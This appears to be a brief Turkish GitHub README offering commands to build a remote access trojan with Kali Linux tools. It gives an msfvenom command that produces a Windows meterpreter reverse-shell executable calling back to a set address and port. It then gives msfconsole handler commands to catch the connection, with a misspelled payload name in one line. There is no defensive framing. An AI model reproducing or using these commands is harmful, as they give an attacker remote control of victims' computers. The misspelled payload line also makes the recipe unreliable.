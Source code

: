 # Kali Linux RAT Kodlar
Buradaki kodu Kali Linux terminaline yazdığınızda kendi RAT'ınızı yapabilirsiniz.

Bir terminal açın
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -f exe > dosyaadı.exe
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/revese_tcp
set LHOST makineipsi
set LPORT 4444
run

